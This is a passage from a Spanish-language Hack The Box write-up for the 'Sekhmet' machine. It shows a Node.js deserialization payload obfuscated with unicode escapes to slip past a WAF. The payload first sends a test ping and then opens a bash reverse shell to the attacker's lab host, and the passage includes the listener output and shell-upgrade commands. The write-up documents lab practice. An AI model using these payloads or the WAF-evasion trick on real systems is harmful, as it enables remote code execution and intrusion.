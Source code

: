 Pero me salta el WAF

<img src="/writeups/assets/img/Sekhmet-htb/4.png" alt="">

Para solucionarlo, basta con obfuscar el payload introduciendo en unicode cadenas en formato ASCII

```null
{"rce":"_$$ND_FUNC\u0024$_function() \u007brequire('child_process').exec('ping -c 1 10.10.16.2', function(error,stdout,stderr) {console.log(stdout) });\n}()"}
```

Recibo la traza ICMP

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:03:36.323767 IP 10.10.11.179 > 10.10.16.2: ICMP echo request, id 1000, seq 1, length 64
13:03:36.323961 IP 10.10.16.2 > 10.10.11.179: ICMP echo reply, id 1000, seq 1, length 64
```

Me envío una reverse shell

```null
{"rce":"_$$ND_FUNC\u0024$_function() \u007brequire('child_process').exec(\"bash -c 'bash -i >& /dev/tcp/10.10.16.2/443 0>&1'\", function(error,stdout,stderr) {console.log(stdout) });\n}()"}
```

Gano acceso a un contenedor

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.179.
Ncat: Connection from 10.10.11.179:56890.
bash: cannot set terminal process group (475): Inappropriate ioctl for device
bash: no job control in this shell
webster@webserver:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
webster@webserver:/$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
webster@webserver:/$ export TERM=xterm
```